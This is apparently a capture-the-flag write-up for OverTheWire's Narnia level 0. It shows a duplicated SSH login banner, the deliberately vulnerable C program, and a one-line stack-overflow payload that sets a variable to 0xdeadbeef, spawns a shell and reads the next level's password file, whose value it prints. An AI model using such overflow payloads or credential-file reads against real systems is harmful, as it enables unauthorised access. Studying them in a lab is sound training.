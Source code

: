 ```bash
┏━•  ~                                                                                                                                                                   ┗  ssh narnia0@narnia.labs.overthewire.org -p 2226                                                                                                                       This is a OverTheWire game server. More information on http://www.overthewire.org/wargames                                                                                                                                                                                                                                                          narnia0@narnia.labs.overthewire.org's password:                                                                                                                           Permission denied, please try again.                                                                                                                                      narnia0@narnia.labs.overthewire.org's password:                                                                                                                           Linux narnia 4.18.12 x86_64 GNU/Linux                                                                                                                                                                                                                                                                                                                     ,----..            ,----,          .---.                                                                                                                                 /   /   \         ,/   .`|         /. ./|                                                                                                                                /   .     :      ,`   .'  :     .--'.  ' ;                                                                                                                               .   /   ;.  \   ;    ;     /    /__./ \ : |                                                                                                                              .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .                                                                                                                              ;   |  ; \ ; | |    :     | /___/ \ |    ' '                                                                                                                              |   :  | ; | ' ;    |.';  ; ;   \  \;      :                                                                                                                              .   |  ' ' ' : `----'  |  |  \   ;  `      |                                                                                                                              '   ;  \; /  |     '   :  ;   .   \    .\  ;                                                                                                                               \   \  ',  /      |   |  '    \   \   ' \ |                                                                                                                                ;   :    /       '   :  |     :   '  |--"                                                                                                                                  \   \ .'        ;   |.'       \   \ ;                                                                                                                                  www. `---` ver     '---' he       '---" ire.org                                                                                                                                                                                                                                                                                                                                                                                                                                                                             Welcome to OverTheWire!                                                                                                                                                                                                                                                                                                                             If you find any problems, please report them to Steven or morla on                                                                                                        irc.overthewire.org.
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226                                                                                                                       This is a OverTheWire game server. More information on http://www.overthewire.org/wargames                                                                                                                                                                                                                                                          narnia0@narnia.labs.overthewire.org's password:                                                                                                                           Permission denied, please try again.                                                                                                                                      narnia0@narnia.labs.overthewire.org's password:                                                                                                                           Linux narnia 4.18.12 x86_64 GNU/Linux                                                                                                                                                                                                                                                                                                                     ,----..            ,----,          .---.                                                                                                                                 /   /   \         ,/   .`|         /. ./|                                                                                                                                /   .     :      ,`   .'  :     .--'.  ' ;                                                                                                                               .   /   ;.  \   ;    ;     /    /__./ \ : |                                                                                                                              .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .                                                                                                                              ;   |  ; \ ; | |    :     | /___/ \ |    ' '                                                                                                                              |   :  | ; | ' ;    |.';  ; ;   \  \;      :                                                                                                                              .   |  ' ' ' : `----'  |  |  \   ;  `      |                                                                                                                              '   ;  \; /  |     '   :  ;   .   \    .\  ;                                                                                                                               \   \  ',  /      |   |  '    \   \   ' \ |                                                                                                                                ;   :    /       '   :  |     :   '  |--"                                                                                                                                  \   \ .'        ;   |.'       \   \ ;                                                                                                                                  www. `---` ver     '---' he       '---" ire.org                                                                                                                                                                                                                                                                                                                                                                                                                                                                             Welcome to OverTheWire!                                                                                                                                                                                                                                                                                                                             If you find any problems, please report them to Steven or morla on                                                                                                        irc.overthewire.org.
```
 Welcome to OverTheWire!                                                                                                                                                                                                                                                                                                                             If you find any problems, please report them to Steven or morla on                                                                                                        irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c                                                                                                                                /*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}```
```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
`efeidiedae`  <- password for narnia1           